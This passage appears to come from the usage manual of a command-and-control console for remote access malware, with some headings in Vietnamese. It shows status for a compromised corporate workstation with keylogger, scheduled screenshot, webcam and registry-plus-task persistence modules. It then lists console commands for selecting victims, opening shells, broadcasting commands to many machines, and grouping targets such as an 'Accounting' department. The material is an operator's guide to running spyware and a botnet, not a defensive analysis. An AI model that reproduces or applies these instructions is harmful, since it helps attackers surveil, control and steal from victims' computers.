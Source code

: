 ```
│ Domain          │ COMPANY.LOCAL                  │
│ Antivirus       │ Windows Defender               │
│ Connected Since │ 2025-05-29 08:15:33           │
│ Last Activity   │ 2025-05-29 10:32:15           │
│ Commands Sent   │ 47                             │
│ Data Received   │ 15.3 MB                        │
│ Data Sent       │ 892 KB                         │
└─────────────────┴────────────────────────────────┘

🔧 Active Modules:
- ✅ Keylogger (Running)
- ✅ Screenshot (Scheduled every 5 min)
- ❌ Webcam (Stopped)
- ✅ Persistence (Registry + Task)
```

### 🎯 Client Selection và Targeting

#### Select Individual Client
```
C2C> select 1
Selected: WORKSTATION1 (192.168.1.101)

# All subsequent commands will target this client
C2C> sysinfo
C2C> screenshot
C2C> shell
```

#### Multi-Client Operations
```
# Select multiple clients
C2C> select 1,2,3
Selected: 3 clients

# Select by criteria
C2C> select --os windows
C2C> select --privilege admin
C2C> select --domain company.local

# Broadcast command to selected
C2C> broadcast sysinfo
```

#### Client Groups
```
# Create group
C2C> group create "Accounting" 1,2,5

# Add to group
C2C> group add "Accounting" 8

# Target group
C2C> group select "Accounting"
C2C> broadcast "dir C:\\"

# List groups
C2C> group list
```

---